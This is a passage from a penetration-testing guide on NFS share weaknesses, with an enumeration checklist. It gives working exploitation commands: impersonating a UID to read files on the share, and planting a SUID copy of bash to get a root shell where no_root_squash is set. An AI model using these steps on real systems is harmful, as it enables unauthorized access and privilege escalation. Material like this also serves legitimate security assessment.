 ### 4. File System Manipulation
- **Issue**: Write permissions on critical directories
- **Impact**: Modify system files, plant backdoors
- **Exploitation**: Upload malicious files, modify configurations

## Exploitation Examples

### UID/GID Manipulation
```bash
# Check file ownership
ls -n /mnt/nfs-share/

# Create local user with matching UID
useradd -u 1000 nfsuser

# Switch to created user
su nfsuser

# Access files with proper permissions
cat /mnt/nfs-share/sensitive-file.txt
```

### SUID Binary Upload (when no_root_squash is set)
```bash
# Create SUID binary
cp /bin/bash /mnt/nfs-share/rootbash
chmod +s /mnt/nfs-share/rootbash

# Execute from target system
./rootbash -p
```

## Enumeration Checklist

### Initial Discovery
- [ ] Port scan for 111 and 2049
- [ ] RPC service enumeration
- [ ] NFS version identification
- [ ] Share discovery with showmount

### Share Analysis
- [ ] Mount accessible shares
- [ ] Check file permissions and ownership
- [ ] Identify sensitive files
- [ ] Test write permissions
- [ ] Check for SUID/SGID binaries

### Security Assessment
- [ ] Verify authentication mechanisms
- [ ] Check for no_root_squash setting
- [ ] Test UID/GID manipulation
- [ ] Assess file system permissions
- [ ] Document configuration weaknesses
